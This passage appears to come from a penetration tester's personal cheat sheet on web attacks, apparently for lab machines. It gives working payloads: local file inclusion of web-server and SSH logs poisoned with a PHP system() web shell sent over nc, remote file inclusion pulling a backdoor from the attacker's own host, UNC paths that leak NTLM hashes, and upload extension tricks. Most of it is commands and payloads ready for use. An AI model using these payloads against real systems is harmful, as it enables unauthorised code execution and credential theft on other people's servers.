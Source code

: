 Now use LFI on the webpage: (windows example)
```bash
http://<URL>/index.php?page=..\..\..\..\..\..\..\xampp\apache\logs\access.log&cmd=whoami
```


### LFI -> Log poisoning SSH

Poison the SSH log
```bash info:3
nc 192.168.208.80 22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
<pre><?php system($_GET["cmd"]); ?></pre>
Protocol mismatch.
```

Execute commands:
```bash
/var/log/auth.log&cmd=id
```


### LFI -> Lateral movement via shell access

If shell access has been obtained as another user, a reverse shell can be written anywhere and executed using the LFI: (e.g. /tmp/shell.php)
- [[Readys]]


### RFI

Use to execute PHP reverse shell from your machine:
```bash
page=http://<your-IP>/simple-backdoor.php&cmd=ls
```
--> [[Slort]]

Can be used to leak NTLM hashes!
- `\\<your-IP\test\share`
- `//<your-IP/test/share`


--- 


## File upload

>[!warning]
>Check each webserver for uploaded file
>- E.g. Uploaded on port 8000 might put the file on port 80
>
>Check if file is available on another webserver (might be multiple)

https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html#file-upload

Modify extension:
```shell
.PhP, .Php, .pHP
phtml, php7
```
